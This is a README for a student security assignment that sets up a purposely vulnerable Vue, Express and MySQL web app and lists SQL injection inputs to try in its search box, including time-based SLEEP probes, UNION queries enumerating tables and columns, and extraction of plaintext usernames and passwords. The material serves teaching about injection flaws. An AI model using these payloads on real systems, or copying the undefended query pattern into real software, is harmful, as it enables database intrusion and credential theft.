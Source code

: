 # Secure Systems Assignment 2 - SQL Injection
# Bearach Byrne - C15379616

This is a simple web app originally taken from https://github.com/TanayB11/sql-injection-demo.git, with some minor modifications.

This application is a lesson in how not to create a web application. It purposefully does not make use of any defenses against SQLi attacks.

## Stack
- Vue
- Node + Express
- MySQL

The below setup guide is for Linux (I set it up and ran it on Ubuntu 20.04.4 LTS

## Setup
1. Clone the repo to a directory - `git clone https://github.com/BearachB/sql_inject_demo.git`
8. Install Homebrew - `/bin/bash -c "$(curl -fsSL https://raw.githubusercontent.com/Homebrew/install/HEAD/install.sh)`. Ensure you add Homebrew to your path and bash shell profile script (follow prompts after installing Homebrew). 
9. Install MySQL `brew install mysql`
10. Start the MySQL server with `mysql.server start`
11. Login to MySQL with `mysql -u root -p`. The default password is blank
12. Run `ALTER USER 'root'@'localhost' IDENTIFIED BY 'new_password';` to change your MySQL password
14. `QUIT` exits the MySQL monitor - Note: `mysql.server stop` stops the MySQL server. Do not run this if you are using the server.
15. Add your MySQL credentials to an environment variable.
```bash
$ cd server
$ echo 'MYSQL_CREDS="mysql_password"' > .env
```

09. To start the Express Server.
```bash
$ cd client && yarn install     # Installs client dependencies
$ cd ../server && yarn install  # Installs server dependencies
$ yarn dev                      # Starts Express server
```
10. To start the Vue server: In a new terminal, run:
```bash
$ cd client
$ yarn serve                    # Starts Vue.js server
```
11. This should open your default browser and connect to your local Vue server, if this doesn't happen go to your browser and manually connect to localhost:8080. 
13. Try search for a computer part, such as "cpu" or "board".
14. Try some SQLi inputs in the search box:
```
-- Sleeps for 2 seconds per item found
SELECT * FROM products WHERE name LIKE '%steel%' AND 0 = SLEEP(2); -- 

-- Selects everything
SELECT * FROM products WHERE name LIKE '%'; -- 

-- Append 1, 2, 3 on the bottom
SELECT ?, ?, ? FROM products WHERE name LIKE '%steel%' UNION (SELECT 1, 2, 3 FROM dual);  -- 

-- Get a list of tables
SELECT ?, ?, ? FROM products WHERE name LIKE '%steel%' UNION (SELECT TABLE_NAME, TABLE_SCHEMA, 3 FROM information_schema.tables);  -- 

-- Get all columns from "users" table
SELECT ?, ?, ? FROM products WHERE name LIKE '%steel%' UNION (SELECT COLUMN_NAME, 2, 3 FROM information_schema.columns WHERE TABLE_NAME = 'users');  -- 

-- Grab usernames and passwords (stored in plain text)
SELECT ?, ?, ? FROM products WHERE name LIKE '%steel%' UNION (SELECT id, username, password FROM users);  -- 
```
If you get errors connecting to MySQL, run the following:
`$ mysql -u root -p`
```SQL
ALTER USER 'root'@'localhost' IDENTIFIED WITH mysql_native_password BY 'mysql_password';
flush privileges;
QUIT;
```
